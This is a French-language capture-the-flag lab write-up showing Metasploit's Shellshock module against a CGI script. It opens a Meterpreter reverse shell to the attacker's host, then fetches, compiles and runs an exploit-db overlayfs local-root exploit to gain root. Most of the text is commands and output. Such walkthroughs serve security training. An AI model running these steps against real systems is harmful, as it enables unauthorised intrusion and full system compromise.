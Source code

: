 ```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST tun0
LHOST => MON-IP
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
[+] 10.10.189.81:80 - The target is vulnerable.
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on MON-IP:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.189.81
[*] Meterpreter session 1 opened (MON-IP:4444 -> 10.10.189.81:48485) at 2023-10-09 10:52:34 -0400

meterpreter > shell
Process 1190 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Le 1er flag ce trouve dans le /home

# Privesc to ROOT !
En faisant les tests basiques, je constate que la version de linux est vraiment vielle : 
```
Linux version 3.13.0-32-generic
```
En recherchant sur exploit-db.com je trouve un exploit "overlayfs local root in ubuntu"
Je récupère donc les sources et je les télécharges ensuite sur le serveur
```
wget MON-IP/37292.c
```
Puis je le compile :
```
gcc 37292.c -o ofs
```
ensuite, plus qu'a l'executer :
```
/ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
Le flag ce trouve dans ***/root/root.txt***

